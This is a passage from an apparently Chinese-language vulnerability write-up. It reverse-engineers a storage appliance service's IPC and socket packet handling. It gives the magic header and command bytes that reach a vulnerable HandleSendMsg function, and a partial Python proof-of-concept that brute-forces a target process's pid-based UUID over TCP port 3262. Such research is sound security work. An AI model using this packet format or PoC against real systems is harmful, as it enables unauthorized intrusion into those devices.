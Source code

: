 ida中可以找到的函数调用链为`sub_D8C30`->`PacketRead`->`sub_D8C80`->`read`

（但是经过分析，实际该线程中调用`PacketRead`函数的并不是`sub_D8C30`函数）

经过调试可以找到该线程中调用`PacketRead`函数的逻辑

![](https://tva1.sinaimg.cn/large/008i3skNly1gqtskgtv3hj30vb0u0q75.jpg)

![](https://tva1.sinaimg.cn/large/008i3skNly1gqtsknkgsdj30sg020jrc.jpg)

在ida中查看地址，就是`StartEngCommPipeServer`函数中的

```c
v7 = (*(__int64 (__fastcall **)(__int64, char *, signed __int64))(i + 0x70))(v4, v5, 0x1000LL);
```

![](https://tva1.sinaimg.cn/large/008i3skNly1gqtsnmawbkj61ho0u0aip02.jpg)



也就是说，数据包的处理逻辑其实很简单，如果cmd指令是`0x36`或者`0x37`，就由`StartEngCommSockServer`函数直接处理，否则通过管道传递，由`StartEngCommPipeServer`函数处理

则只需要构造

```c
struct data1{
	size_t magic = 0x18060E0B0E0D1812;
  size_t padding;
  size_t padding;
  int size = 2;
  int padding;
}
```

```c
struct data2{
  char cmd[2] = "\x20\x01";
}
```

即可进入存在漏洞的函数`HandleSendMsg`

#### 触发漏洞

进入`HandleSendMsg`函数后，在`SearchAppInRemoteHostSetByUUID`和`SearchAppInLocalHostSetByUUID`两个函数中需要根据我们输入的UUID搜索app，然后通过`AppSendControl`中的`PacketWrite`函数将第二次发送的报文由管道的方式发送给对应的app

> 这里的UUID并不是通用唯一识别码，是这里自定义的一种通信格式，经过对`SearchAppInRemoteHostSetByUUID`和`SearchAppInLocalHostSetByUUID`函数的逆向分析，可以发现搜索能找到的app只有ISS-SERVER，也就是`iscsi_snapshot_server`，其UUID为"ISS-SERVER-$pid"，比如`iscsi_snapshot_server`进程的pid为24375，则UUID就是"ISS-SERVER-24375"
>
> 由于没有找到app的话进程不会有任何反应，所以pid应该爆破出来

所以可以实现任意控制`AppSendControl`函数的第三个参数，向管道发送任意长度的报文

poc.py：

```python
from pwn import *
import socket
import uuid


name = 'ISS-SERVER-'
for i in range(20000):
	s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
	s.connect(('172.20.10.10', 3262))
	udx = name + str(i)
	print("[+]try " + udx)
	pd = p64(0x18060e0b0e0d1812)+p32(0x24+len(udx)+0x19+0x4)*6
	s.send(pd)
```